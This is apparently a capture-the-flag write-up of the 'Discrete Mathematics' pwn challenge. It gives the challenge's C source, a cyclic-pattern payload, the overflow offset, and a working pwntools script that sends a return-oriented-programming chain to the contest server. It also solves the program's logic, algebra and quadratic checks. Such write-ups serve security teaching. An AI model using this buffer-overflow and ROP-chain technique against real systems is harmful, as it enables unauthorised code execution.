






# Discrete Mathematics

The same challenge, but this time we need ot build a ROP chain.

```c
void quiz() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("Sorry, all my stuff's a mess.");
        puts("I'll get around to grading your quiz sometime.");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);

    if (knows_logic && knows_algebra && knows_functions) {
        puts("Alright, you passed this quiz.");
        puts("Here's your prize:");
        puts(flag);
    } else {
        puts("Not there yet...");
        puts("Study some more!");
    }
}
```

We can't just jump to `quiz()` directly, since we need to make `knows_logic`, `knows_algebra`, and `knows_functions` True. Each of these variables are only set within their corresponding functions: `logic()`, `algebra()` and `functions()`.

If we build a ROP chain as follows, we can control the return addresses of subsequent returns.



Again, we will have to bypass the `strcmp()` check:

```c
if (strcmp(response, "i will get an A")) {
    puts("I'm sorry, but you obviously don't care about grades.");
    puts("Therefore, you aren't motivated enough to be in our class.");
    puts("Goodbye.");
    exit(1);
}
```

Prepare our cyclic pattern payload:

`python -c "print 'i will get an A' + '\x00' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'" > ipt.txt`



We find that the offset is 56.



We find the function addresses:

* logic: 0x00401236
* algebra: 0x00401336
* functions: 0x0040144d
* quiz: 0x00401544



```python
from pwn import *

logic = 0x00401236
algebra = 0x00401336
functions = 0x0040144d
quiz = 0x00401544

logic = p64(logic)
algebra = p64(algebra)
functions = p64(functions)
quiz = p64(quiz)

offset = 56
payload = b"i will get an A"
payload += b"\x00"

# Build the ROP chain
payload += b"A" * offset
payload += quiz
payload += logic
payload += quiz
payload += algebra
payload += quiz
payload += functions
payload += quiz
print(payload)

with open('payload', 'wb') as f:
    f.write(payload)

conn = remote('bin.bcactf.com', 49160)

print(conn.recv())
print(conn.recv())

print("\nSending payload...")
conn.send(payload + b"\n")

print(conn.recv())

conn.interactive()
conn.close()
```

Now, we get an interactive connection where we will first jump to `logic()`, then `algebra()`, then `functions()`.



We just have to figure out the appropriate values to pass the checks.


```c
void logic() {
    int p, q, r, s;

    printf("p: ");
    scanf("%d", &p);
    printf("q: ");
    scanf("%d", &q);
    printf("r: ");
    scanf("%d", &r);
    printf("s: ");
    scanf("%d", &s);

    knows_logic = (p || q || !r) && (!p || r || !s) && (q != s) && s;
}
```

So, from `(q != s) && s`, we know `s` must be 1, `q` must be 0.

Then, from `(p || q || !r) && (!p || r || !s)`, we have `(p || 0 || !r) && (!p || r || 0)`, which is `(p || !r) && (!p || r)`. Either `p = r = 0` or `p = r = 1` works.

```c
void algebra() {
    int x, y, z;

    printf("x: ");
    scanf("%d", &x);
    printf("y: ");
    scanf("%d", &y);
    printf("z: ");
    scanf("%d", &z);

    int eq1 = 5*x - 6*y + 3*z;
    int eq2 = 2*x + 5*y - 7*z;
    int eq3 = 4*x + 8*y + 8*z;

    knows_algebra = (eq1 == 153) && (eq2 == -163) && (eq3 == -28);
}
```

We can solve the simultaneous equations to get:

* x = 3
* y = -17
* z = 12

```c
void functions() {
    int a, b, c;

    printf("a: ");
    scanf("%d", &a);
    printf("b: ");
    scanf("%d", &b);
    printf("c: ");
    scanf("%d", &c);

    int vertex_x = -b / (2*a);
    int vertex_y = a * vertex_x * vertex_x + b * vertex_x + c;
    int discriminant = b * b - 4 * a * c;

    knows_functions = (vertex_x == 2) && (vertex_y == -2) && (discriminant == 16);
}
```

The values seemed pretty small, so a bruteforce script easily gets the values.

```python
for a in range(-10, 10):
    if a == 0:
        continue
    for b in range(-10, 10):
        for c in range(-10, 10):
            vertex_x = -b / (2*a)
            vertex_y = a * vertex_x * vertex_x + b * vertex_x + c
            discriminant = b * b - 4 * a * c

            if (vertex_x == 2) and (vertex_y == -2) and (discriminant == 16):
                print(a, b, c)
                break
```

We have:

* a = 2
* b = -8
* c = 6

Plugging these values in, we get the flag.



